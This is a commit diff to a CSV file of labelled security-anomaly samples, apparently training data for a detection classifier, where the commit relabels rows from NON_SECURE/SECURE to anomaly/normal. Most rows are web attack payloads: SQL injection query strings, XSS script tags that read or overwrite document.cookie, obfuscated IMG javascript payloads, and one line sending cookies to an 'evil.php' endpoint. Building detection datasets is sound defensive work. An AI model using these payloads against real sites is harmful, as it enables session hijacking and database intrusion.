

Before and after one commit to divanshu1993/security-anomalies-samples, a CSV file: security anomalies threats samples.csv, drawn as a sheet.

Commit message:
Update security anomalies threats samples.csv

```diff
--- a/security anomalies threats samples.csv
+++ b/security anomalies threats samples.csv
@@ -1,27 +1,27 @@
 message,status
-CONNECT 174.12.23.111 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.112 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.113 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.114 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.115 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.116 application message to accept the request,NON_SECURE
-CONNECT 174.12.23.117 application message to accept the request,NON_SECURE
-home=177&id=1%27%20or%201=@@version-- test ,NON_SECURE
-home=177&id=13%27%20or%201=@@version-- test ,NON_SECURE
-home=177&id=25%27%20or%201=@@version-- test ,NON_SECURE
-home=177&id=101%27%20or%201=@@version-- test ,NON_SECURE
-home=177&id=1000%27%20or%201=@@version-- test ,NON_SECURE
-<script>javascript:alert(‘Executed!’);</script>,NON_SECURE
-<script>javascript: alert(document.cookie);</script>,NON_SECURE
-<script>javascript:void(document.cookie=“session_id=<<other session id>>“);</script>,NON_SECURE
-<script>javascript:void(document.cookie=”username=otherUser”);</script>,NON_SECURE
-<script>var adr = '../evil.php?cakemonster=' + escape(document.cookie);</script>,NON_SECURE
-<script></script>,NON_SECURE
-<script></script>,NON_SECURE
-<IMG SRC=j&#X41vascript:alert('test2')>,NON_SECURE
-<IMG SRC=j&#X41vascript:alert('hacked')>,NON_SECURE
-<IMG SRC=j&#X41vascript:alert('check')>,NON_SECURE
-<IMG SRC=j&#X41vascript:alert('test')>,NON_SECURE
-simple application message to accept the request,SECURE
-service class level code is executed before logic,SECURE
-database insertion is happening,SECURE
+CONNECT 174.12.23.111 application message to accept the request,anomaly
+CONNECT 174.12.23.112 application message to accept the request,anomaly
+CONNECT 174.12.23.113 application message to accept the request,anomaly
+CONNECT 174.12.23.114 application message to accept the request,anomaly
+CONNECT 174.12.23.115 application message to accept the request,anomaly
+CONNECT 174.12.23.116 application message to accept the request,anomaly
+CONNECT 174.12.23.117 application message to accept the request,anomaly
+home=177&id=1%27%20or%201=@@version-- test ,anomaly
+home=177&id=13%27%20or%201=@@version-- test ,anomaly
+home=177&id=25%27%20or%201=@@version-- test ,anomaly
+home=177&id=101%27%20or%201=@@version-- test ,anomaly
+home=177&id=1000%27%20or%201=@@version-- test ,anomaly
+<script>javascript:alert(‘Executed!’);</script>,anomaly
+<script>javascript: alert(document.cookie);</script>,anomaly
+<script>javascript:void(document.cookie=“session_id=<<other session id>>“);</script>,anomaly
+<script>javascript:void(document.cookie=”username=otherUser”);</script>,anomaly
+<script>var adr = '../evil.php?cakemonster=' + escape(document.cookie);</script>,anomaly
+<script></script>,anomaly
+<script></script>,anomaly
+<IMG SRC=j&#X41vascript:alert('test2')>,anomaly
+<IMG SRC=j&#X41vascript:alert('hacked')>,anomaly
+<IMG SRC=j&#X41vascript:alert('check')>,anomaly
+<IMG SRC=j&#X41vascript:alert('test')>,anomaly
+simple application message to accept the request,normal
+service class level code is executed before logic,normal
+database insertion is happening,normal
```
